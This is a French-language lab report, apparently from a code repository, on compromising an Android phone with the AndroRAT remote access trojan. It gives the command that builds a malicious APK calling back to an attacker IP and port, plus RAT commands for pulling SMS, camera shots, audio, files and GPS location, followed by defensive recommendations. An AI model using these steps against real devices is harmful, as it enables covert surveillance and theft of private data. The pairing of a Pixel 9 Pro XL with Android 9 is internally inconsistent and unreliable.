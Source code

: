 # Rapport d'Attaque avec AndroRAT

## 📌 Informations Générales
- **Date de l'attaque** : 23/01/2025
- **Système cible** : Android
- **Modèle du téléphone** : Pixel 9 Pro XL
- **Version Android** : Pie android 9.0
- **Adresse IP de l'attaquant** : 10.3.219.27
- **Adresse IP de la victime** : 192.168.232.2

---

## 🎯 Objectif de l'attaque
L'objectif de cette attaque était de tester la compromission d'un appareil Android à l'aide de **AndroRAT**, un Remote Access Trojan (RAT) permettant d'obtenir un contrôle total sur l'appareil cible.

---

## 🛠️ Méthodologie
### 1️⃣ Génération de l'APK Malveillant
Commande utilisée :
```
python3 androRAT.py --build -i 10.3.219.27 -p 4444 test1.apk
```

### 2️⃣ Installation et Exécution de l'APK
- L'APK a été transférée et installée sur le téléphone cible via un serveur HTTP.
- Une fois lancée, l'application a établi une connexion avec la machine attaquante.

### 3️⃣ Prise de Contrôle et Extraction des Données
Une fois connecté, les commandes suivantes ont été exécutées :

#### 📩 Accès aux Messages SMS
```
GET sms 
```
- Extraction et affichage de tous les SMS stockés sur l’appareil.

#### 📷 Accès à la Caméra
```bash
camera snap
```
- Capture d'images via la caméra avant/arrière.

#### 🎙️ Enregistrement Audio
```bash
record start
record stop
```
- Activation du microphone et enregistrement audio.

#### 📂 Accès aux Fichiers Stockés
```bash
file list /sdcard
```
- Exploration des fichiers enregistrés sur l’appareil.

#### 📍 Géolocalisation de l’Appareil
```bash
location
```
- Récupération des coordonnées GPS en temps réel.

---

## 📝 Résultats de l'Attaque
| Fonctionnalité | Résultat |
|--------------|---------|
| Accès aux SMS | ✅ Succès |
| Accès à la caméra | ✅ Succès (Images capturées) |
| Enregistrement audio | ✅ Succès (Fichier audio enregistré) |
| Accès aux fichiers | ✅ Succès (Exploration et extraction) |
| Géolocalisation | ✅ Succès (Coordonnées GPS obtenues) |

---

## 🔍 Analyse des Vulnérabilités Exploitées
1. **Installation d'une application non vérifiée** : L'utilisateur a installé un APK sans contrôle de source.
2. **Manque de protection des permissions** : L’application malveillante a pu accéder librement aux fonctionnalités sensibles.
3. **Absence d’un antivirus** : Aucun mécanisme de détection n’a empêché l’exécution de l’APK.

---
## 🔐 Recommandations de Sécurité
- **Ne pas installer d’APK provenant de sources inconnues.**
- **Restreindre les permissions des applications non fiables.**
- **Utiliser un antivirus pour analyser les applications avant installation.**
- **Garder Android et les applications à jour pour corriger les vulnérabilités.**
- **Activer Google Play Protect pour détecter les comportements suspects.**

---

## 📌 Conclusion
L'utilisation de **AndroRAT** a permis de démontrer la facilité avec laquelle un appareil Android peut être compromis si l'utilisateur ne suit pas les bonnes pratiques de sécurité. Ce test souligne l'importance d'une sensibilisation accrue aux cybermenaces sur mobile.


